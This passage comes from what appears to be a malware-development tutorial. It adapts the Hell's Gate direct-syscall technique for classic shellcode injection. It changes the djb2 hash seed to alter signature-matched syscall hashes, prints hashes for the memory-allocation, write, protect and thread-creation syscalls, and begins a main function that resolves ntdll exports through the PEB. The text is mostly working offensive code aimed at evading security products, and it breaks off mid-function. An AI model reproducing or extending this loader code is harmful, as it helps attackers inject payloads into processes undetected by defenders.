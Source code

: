 A new seed value will be used to replace the [old one](https://github.com/am0nsec/HellsGate/blob/master/HellsGate/main.c#L93) to change the hash values of the syscalls. The djb2 hashing function is updated with the new seed value below.


```
DWORD64 djb2(PBYTE str) {
	DWORD64 dwHash = 0x77347734DEADBEEF; // Old value: 0x7734773477347734
	INT c;

	while (c = *str++)
		dwHash = ((dwHash << 0x5) + dwHash) + c;

	return dwHash;
}

```
The following `printf` statements should be added to a new project to generate the djb2 hash values.


```
printf("#define %s%s 0x%p \n", "NtAllocateVirtualMemory", "_djb2", (DWORD64)djb2("NtAllocateVirtualMemory"));
printf("#define %s%s 0x%p \n", "NtWriteVirtualMemory", "_djb2", djb2("NtWriteVirtualMemory"));
printf("#define %s%s 0x%p \n", "NtProtectVirtualMemory", "_djb2", djb2("NtProtectVirtualMemory"));
printf("#define %s%s 0x%p \n", "NtCreateThreadEx", "_djb2", djb2("NtCreateThreadEx"));
```



[![](67%20Syscalls%20-%20Reimplementing%20Classic%20Injection%20a51528df7b4045359976f170fab7b5ef/syscalls-classic-618293274-8d259f06-efa2-4254-886c-ce14500fb65d.png)](67%20Syscalls%20-%20Reimplementing%20Classic%20Injection%20a51528df7b4045359976f170fab7b5ef/syscalls-classic-618293274-8d259f06-efa2-4254-886c-ce14500fb65d.png)Once the values are generated, add them to the start of the Hell's Gate project.


```
#define NtAllocateVirtualMemory_djb2  0x7B2D1D431C81F5F6#define NtWriteVirtualMemory_djb2     0x54AEE238645CCA7C#define NtProtectVirtualMemory_djb2   0xA0DCC2851566E832#define NtCreateThreadEx_djb2         0x2786FB7E75145F1A
```
### **Updating The Main Function**

The main function must be updated to call the `ClassicInjectionViaSyscalls` instead of the [payload function](https://github.com/am0nsec/HellsGate/blob/master/HellsGate/main.c#L80). The function will use the above-generated hashes as shown below.


```
INT main() {
	// Getting the PEB structure
	PTEB pCurrentTeb = RtlGetThreadEnvironmentBlock();
	PPEB pCurrentPeb = pCurrentTeb->ProcessEnvironmentBlock;
	if (!pCurrentPeb || !pCurrentTeb || pCurrentPeb->OSMajorVersion != 0xA)
		return 0x1;

	// Getting the NTDLL module
	PLDR_DATA_TABLE_ENTRY pLdrDataEntry = (PLDR_DATA_TABLE_ENTRY)((PBYTE)pCurrentPeb->LoaderData->InMemoryOrderModuleList.Flink->Flink - 0x10);

	// Getting the EAT of Ntdll
	PIMAGE_EXPORT_DIRECTORY pImageExportDirectory = NULL;
	if (!GetImageExportDirectory(pLdrDataEntry->DllBase, &pImageExportDirectory) || pImageExportDirectory == NULL)
		return 0x01;

//--------------------------------------------------------------------------
	// Initializing the 'Table' structure
```